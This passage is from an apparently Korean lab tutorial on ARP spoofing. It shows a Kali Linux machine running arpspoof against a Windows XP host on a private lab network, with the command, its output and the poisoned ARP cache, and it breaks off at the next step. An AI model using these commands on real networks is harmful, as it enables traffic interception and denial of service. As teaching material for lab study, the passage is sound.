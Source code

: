 

![img](https://lh5.googleusercontent.com/UbLVIJR8L0h6cq-a2j2PWZfDK4_VMrukiVvKQRyDECB3P2z3hhsIdVHY4nqD_-pJuLxZqH_pcbWH2-f_N9dLy6WWux_NfxUaX6Cg6QMao63WxOlQiuY9itgXfAJLPphflRRnM0fw)





WinXP에서 명령어 창에서 IP 설정 정보와 arp 캐시 테이블 내용을 확인

C:\Documents and Settings\Administrator>ipconfig

Windows IP Configuration


Ethernet adapter 로컬 영역 연결:

        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.50.130
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.50.2

C:\Documents and Settings\Administrator>



C:\Documents and Settings\Administrator>arp -a

Interface: 192.168.50.130 --- 0x2

  Internet Address      Physical Address      Type

  192.168.50.2          00-50-56-ea-ef-b8     dynamic



WinXP : 192.168.50.130

Kali#1 : 192.168.50.128

Kali#2 : 192.168.50.129



Kali#2에서 아래 명령어를 실행

root@kali:~# arpspoof -i eth0 -t 192.168.50.130 192.168.50.2

0:50:56:34:96:a1 0:50:56:2b:3b:aa 0806 42: arp reply 192.168.50.2 is-at 0:50:56:34:96:a1

0:50:56:34:96:a1 0:50:56:2b:3b:aa 0806 42: arp reply 192.168.50.2 is-at 0:50:56:34:96:a1



WinXP에서 http://www.naver.com로 접속 → 안 떠요 → arp 캐시 테이블을 확인

C:\Documents and Settings\Administrator>arp -a

Interface: 192.168.50.130 --- 0x2

  Internet Address      Physical Address      Type

  192.168.50.2          00-50-56-34-96-a1     dynamic

  192.168.50.129        00-50-56-34-96-a1     dynamic



Kali#2에서 터미널을 추가해서 아래 명령어를 실행
